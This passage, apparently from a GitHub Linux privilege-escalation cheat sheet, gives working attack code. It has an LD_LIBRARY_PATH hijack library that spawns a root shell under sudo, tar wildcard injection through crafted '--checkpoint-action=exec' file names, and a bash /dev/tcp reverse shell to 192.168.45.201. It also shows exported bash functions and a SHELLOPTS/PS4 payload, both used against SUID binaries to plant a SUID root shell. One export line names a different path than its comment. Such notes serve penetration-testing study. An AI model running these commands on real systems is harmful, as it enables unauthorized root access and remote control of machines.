 ```C
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
Finally, execute the program:
`sudo LD_LIBRARY_PATH=/tmp apache2`
***NOTE: as a security measure, this will not work against SUID files. Only files that we can run `sudo` directly on.***

# Advanced: Misc

### 16) Wildcarding/Globbing
If there is wildcarding/globbing in a cronjob, some filesystems are very permissive and will allow you to name a file something like `--launch-reverse-shell` (as a crude example). The name of the file will then be interpreted as an argument to the command by whatever program is wildcarding/globbing. E.g.,
`some-script.sh --l*` will expand out to `some-script.sh --list-reverse-shell`

To create such file names: 
```bash
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh /opt/admin/privesc.sh'
```
Then create a reverse shell `privesc.sh` that is to be executed:
```bash
bash -i >& /dev/tcp/192.168.45.201/53 0>&1
```

### 17) Abusing Shell Features (#1: Functions)
Prerequisite: Bash version `<4.2-048`
Functions can be defined in the shell and they will take precedence over the actual executable being called.

Find SUID/SGID files that call some program using an absolute file path
```bash
# Example: we found SUID/SGID file that calls a program at absolute file "usr/bin/service" 
function /usr/bin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

### 18) Abusing Shell Features (#2: SHELLOPTS)
Prerequisite: Bash version `<4.4`

This will open a debug channel and run the command given to `PS4` on each message prompt.
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown
root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```
